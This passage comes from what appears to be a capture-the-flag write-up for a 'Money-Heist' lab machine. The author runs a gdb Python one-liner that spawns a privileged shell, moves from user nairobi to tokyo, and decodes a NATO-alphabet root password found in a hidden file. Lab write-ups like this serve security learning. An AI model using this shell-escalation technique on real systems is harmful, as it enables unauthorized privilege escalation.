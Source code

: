 gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
    
    
    
nairobi@Money-Heist:~$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
Python Exception <class 'ImportError'> No module named 'gdb': 
gdb: warning: 
Could not load the Python gdb module from `/usr/share/gdb/python'.
Limited Python support is available from the _gdb module.
Suggest passing --data-directory=/path/to/gdb/data-directory.

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
$ whoami
tokyo


$ cd tokyo
$ ls -al
total 36
drwxrwx--- 4 tokyo tokyo 4096 Nov 19  2020 .
drwxr-xr-x 6 root  root  4096 Oct 15  2020 ..
-rw------- 1 tokyo tokyo    8 Nov 19  2020 .bash_history
-rw-r--r-- 1 tokyo tokyo  220 Oct  5  2020 .bash_logout
-rw-r--r-- 1 tokyo tokyo 3771 Oct  5  2020 .bashrc
drwx------ 2 tokyo tokyo 4096 Oct  5  2020 .cache
drwxrwxr-x 2 tokyo tokyo 4096 Nov 19  2020 .nano
-rw-r--r-- 1 tokyo tokyo  655 Oct  5  2020 .profile
-rw-r--r-- 1 tokyo tokyo  133 Nov 19  2020 .sudo_as_admin_successful
$ cat .sudo_as_admin_successful
Romeo Oscar Oscar Tango Stop Papa Alfa Sierra Sierra Whiskey Oscar Romeo Delta : India November Delta India Alfa One Nine Four Seven
$ 

Looks like we have another code to decode


Romeo -> R
Oscar -> O
Oscar -> O
Tango -> T
Stop
Papa -> P 
Alfa -> A
Sierra -> S
Sierra ->S
Whiskey -> W
Oscar -> O
Romeo -> R
Delta ->D
: 
India -> I
November -> N
Delta -> D
India -> I
Alfa -> A